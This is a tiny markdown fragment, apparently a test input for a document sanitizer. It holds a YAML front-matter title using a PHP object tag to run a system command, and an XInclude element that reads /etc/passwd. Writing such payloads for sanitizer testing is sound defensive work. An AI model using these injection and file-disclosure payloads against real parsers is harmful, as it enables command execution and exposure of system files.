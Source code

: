 ```yaml
---
title: !!php/object "<?php system('id'); ?>"
---
```


[XInclude](xmlns:xi="http://www.w3.org/2001/XInclude"<xi:include parse="text" href="file:///etc/passwd"/>)

$HOME
